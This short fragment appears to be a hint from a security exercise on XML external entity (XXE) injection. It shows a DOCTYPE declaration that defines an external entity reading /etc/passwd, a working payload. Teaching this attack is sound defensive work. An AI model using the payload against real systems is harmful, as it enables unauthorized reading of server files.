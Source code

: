 # Hint 4
This how you create the reference to the external entity
```xml
<!DOCTYPE bar [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
```
